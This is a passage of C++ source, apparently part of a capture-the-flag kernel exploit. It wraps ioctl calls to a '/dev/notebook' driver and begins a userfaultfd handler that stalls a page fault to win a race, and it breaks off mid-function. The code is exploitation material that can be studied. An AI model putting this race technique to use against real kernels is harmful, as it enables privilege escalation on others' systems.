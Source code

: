```cpp

void noteadd(size_t idx, size_t size, void* buf)
{
	struct userarg notearg;
	notearg.idx = idx;
	notearg.size = size;
	notearg.buf = buf;
	ioctl(note_fd, 0x100, &notearg);
}

void notegift(void* buf)
{
	struct userarg notearg;
	notearg.idx = 0;
	notearg.size = 0;
	notearg.buf = buf;
	ioctl(note_fd, 0x64, &notearg);
}

void notedel(size_t idx)
{
	struct userarg notearg;
	notearg.idx = idx;
	notearg.size = 0;
	notearg.buf = NULL;
	ioctl(note_fd, 0x200, &notearg);
}

void noteedit(size_t idx, size_t size, void* buf)
{
	struct userarg notearg;
	notearg.idx = idx;
	notearg.size = size;
	notearg.buf = buf;
	ioctl(note_fd, 0x300, &notearg);
}

void OpenNote()
{
	note_fd = open("/dev/notebook", O_RDWR);
	if (note_fd < 0)
	{
		ErrExit("[-] err in open notebook device");
	}
}

void* userfaultfd_sleep3_handler(void* arg)
{
	struct uffd_msg msg;
	unsigned long uffd = (unsigned long) arg;
	puts("[+] sleep3 handler created");
	int nready;
	struct pollfd pollfd;
	pollfd.fd = uffd;
	pollfd.events = POLLIN;
	nready = poll(&pollfd, 1, -1);
	puts("[+] sleep3 handler unblocked");
	sleep(3);
	if (nready != 1)
	{
		ErrExit("[-] Wrong poll return val");
	}
	nready = read(uffd, &msg, sizeof(msg));
```